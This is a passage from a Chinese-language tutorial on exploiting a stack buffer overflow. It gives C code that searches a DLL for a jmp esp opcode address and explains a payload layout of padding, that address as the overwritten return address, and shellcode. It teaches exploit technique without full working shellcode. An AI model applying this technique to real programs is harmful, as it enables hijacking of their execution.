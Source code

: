 ```c
                printf("load dll error!");
                exit(0);
        }
        ptr = (BYTE*)handle;

        for(position = 0; !done_flag; position++)
        {
                if(ptr[position]==0xFF && ptr[position+1]==0xE4)
                        {
                                int address = (int)ptr + position;
                                printf("OPCODE found at 0x%x\n", address);
                        }
                /*
                // c语言好像不支持try catch
                try
                {
                        if(ptr[position]==0xFF && ptr[position+1]==0xE4)
                        {
                                int address = (int)ptr + position;
                                printf("OPCODE found at 0x%x\n", address);
                        }
                }
                catch(...)
                {
                        int address = (int)ptr + position;
                        printf("END OF 0x%x\n", address);
                        done_flag = true;
                }
                */
        }
        getchar();
        return 0;
}
```


报错，但是执行结果如下：
![[Pasted image 20241228212619.png]]


随便取出一个结果用于实验。这里我选择的是第一行的`0x1697302b`。也就是说，需要使用这个地址来覆盖程序的返回地址。这样，程序在返回时，就会执行 jmp esp，从而跳到返回地址下一个位置去执行该地址处的语句。

总结一下即将要编写的程序中 “name” 数组(buffer数组大小为8字节，利用溢出部分覆盖返回地址，实现利用)中的内容，经过分析可以知道，其形式为 AAAAAAAAAAAAXXXXSSSS……SSSS（A区域有12字节，X区域有4字节，S区域长度不确定）：
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/6950f1ebec9c3b20045f7bf85e70a6d6.png)

1.  其中前 12 个字符为任意字符（buffer是8字节；和buffer缓冲区紧临向高地址方向增长的4个字节是ebp，即第 9-12 位是为了填充覆盖 ret 指令前存储的父函数 EBP 的值）；
2.  XXXX 为返回地址（即前面用搜算算法找到的跳板指令地址）；
3.  而 SSSS 是想要让计算机执行的代码（即需要构造的执行弹窗的 ShellCode）。
